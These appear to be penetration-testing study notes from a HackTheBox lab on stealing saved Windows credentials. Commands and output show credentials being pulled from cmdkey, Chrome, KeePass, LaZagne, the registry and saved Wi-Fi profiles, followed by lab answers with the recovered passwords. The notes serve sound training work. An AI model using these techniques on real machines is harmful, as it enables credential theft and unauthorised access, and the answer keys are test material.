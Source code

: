 # Further Credential Theft

## Cmdkey Saved Credentials

**Listing Saved Credentials**

```cmd-session
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
	
```

When we attempt to RDP to the host, the saved credentials will be used.

![image](https://academy.hackthebox.com/storage/modules/67/cmdkey\_rdp.png)

We can also attempt to reuse the credentials using `runas` to send ourselves a reverse shell as that user, run a binary, or launch a PowerShell or CMD console with a command such as:

**Run Commands as Another User**

```powershell-session
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

## Browser Credentials

**Retrieving Saved Credentials from Chrome**

```powershell-session
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```

## Password Managers

**Extracting KeePass Hash**

```shell-session
python keepass2john.py ILFREIGHT_Help_Desk.kdbx 

ILFREIGHT_Help_Desk:$keepass$*2*60000*222*f49632ef7dae20e5a670bdec2365d5820ca1718877889f44e2c4c202c62f5fd5*2e8b53e1b11a2af306eb8ac424110c63029e03745d3465cf2e03086bc6f483d0*7df525a2b843990840b249324d55b6ce*75e830162befb17324d6be83853dbeb309ee38475e9fb42c1f809176e9bdf8b8*63fdb1c4fb1dac9cb404bd15b0259c19ec71a8b32f91b2aaaaf032740a39c154
```

**Cracking Hash Offline**

```shell-session
hashcat -m 13400 keepass_hash /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

## Email

search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool

{% embed url="https://github.com/dafthack/MailSniper" %}
tool for searching through email in a Microsoft Exchange environment
{% endembed %}

## Other methods

**Running All LaZagne Modules**

{% embed url="https://github.com/AlessandroZ/LaZagne" %}
open source application used to **retrieve lots of passwords** stored on a local computer
{% endembed %}

```powershell-session
PS C:\htb> .\lazagne.exe all
```

**Running SessionGopher as Current User**

{% embed url="https://github.com/Arvanaghi/SessionGopher" %}
PowerShell tool that finds and decrypts saved session information for remote access tools.
{% endembed %}

```powershell-session
PS C:\htb> Import-Module .\SessionGopher.ps1
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
```

## Clear-Text Password Storage in the Registry

### Windows AutoLogon

a feature that allows a user to configure their Windows operating system to automatically log on to a specific user account.

registry keys associated with Autologon can be found under `HKEY_LOCAL_MACHINE` in the following hive

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

**Enumerating Autologon with reg.exe**

```cmd-session
C:\htb>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    
    <SNIP>
    
    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    htb-student
    DefaultPassword    REG_SZ    HTB_@cademy_stdnt!
```

### Putty

the credentials are stored in the registry in clear text.

```cmd
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

**Enumerating Sessions and Finding Credentials:**

```powershell-session
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

```powershell-session
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh

HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
    Present    REG_DWORD    0x1
    HostName    REG_SZ
    LogFileName    REG_SZ    putty.log
    
  <SNIP>
  
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x5
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    administrator
    ProxyPassword    REG_SZ    1_4m_th3_@cademy_4dm1n!  
```

## Wifi Passwords

**Viewing Saved Wireless Networks**

```cmd-session
C:\htb> netsh wlan show profile

Profiles on interface Wi-Fi:

Group policy profiles (read only)
---------------------------------
    <None>

User profiles
-------------
    All User Profile     : Smith Cabin
    All User Profile     : Bob's iPhone
    All User Profile     : EE_Guest
    All User Profile     : EE_Guest 2.4
    All User Profile     : ilfreight_corp
```

**Retrieving Saved Wireless Passwords**

```cmd-session
C:\htb> netsh wlan show profile ilfreight_corp key=clear

Profile ilfreight_corp on interface Wi-Fi:
=======================================================================

Applied: All User Profile

Profile information
-------------------
    Version                : 1
    Type                   : Wireless LAN
    Name                   : ilfreight_corp
    Control options        :
        Connection mode    : Connect automatically
        Network broadcast  : Connect only if this network is broadcasting
        AutoSwitch         : Do not switch to other networks
        MAC Randomization  : Disabled

Connectivity settings
---------------------
    Number of SSIDs        : 1
    SSID name              : "ilfreight_corp"
    Network type           : Infrastructure
    Radio type             : [ Any Radio Type ]
    Vendor extension          : Not present

Security settings
-----------------
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    Authentication         : WPA2-Personal
    Cipher                 : GCMP
    Security key           : Present
    Key Content            : ILFREIGHTWIFI-CORP123908!

Cost settings
-------------
    Cost                   : Unrestricted
    Congested              : No
    Approaching Data Limit : No
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Default
```

## Assessment

<details>

<summary>Using the techniques covered in this section, retrieve the sa password for the SQL01.inlanefreight.local user account.</summary>

```
PS C:\Tools> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Dbvis passwords -----------------

[+] Password found !!!
Name: SQL01.inlanefreight.local
Driver:
          SQL Server (Microsoft JDBC Driver)

Host: localhost
Login: sa
Password: S3cret_db_p@ssw0rd!
Port: 1433


[+] 2 passwords have been found.
```

<pre><code><strong>sa:S3cret_db_p@ssw0rd!
</strong></code></pre>

</details>

<details>

<summary>Which user has credentials stored for RDP access to the WEB01 host?</summary>

```
C:\Users\htb-student>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02oiyrkaiseq
    Local machine persistence

    Target: Domain:target=WEB01
    Type: Domain Password
    User: amanda
```

```
User:amanda
```

</details>

<details>

<summary>Find and submit the password for the root user to access https://vc01.inlanefreight.local/ui/login</summary>

```
PS C:\Tools> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.11.1


[*] Action: Chrome Saved Logins Triage


[*] Triaging Chrome Logins for current user


[*] AES state key file : C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : D72790F4972C4D5700D8D2ED50D21850A3429373534ED938EB009219A51A0479

[X] Error : 0

---  Credential (Path: C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc.inlanefreight.local/,https://vc
.inlanefreight.local/ui/login,5/26/2021 12:09:51 PM,13266529791618996,root,"?U?1`?l}?????A
?"
C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data,http://vc01.inlanefreight.local:443/,http:
//vc01.inlanefreight.local:443/login.html,8/7/2021 6:33:01 PM,13272859981246714,root,ILVCadm1n1qazZAQ!
```

```
root:ILVCadm1n1qazZAQ!
```

</details>

<details>

<summary>Enumerate the host and find the password for ftp.ilfreight.local</summary>

```
PS C:\Tools> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: htb-student ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: ftp.ilfreight.local
Login: root
Password: Ftpuser!
Port: 22

------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:target=WEB01
Login: amanda
```

<pre><code><strong>root:Ftpuser!
</strong></code></pre>

</details>
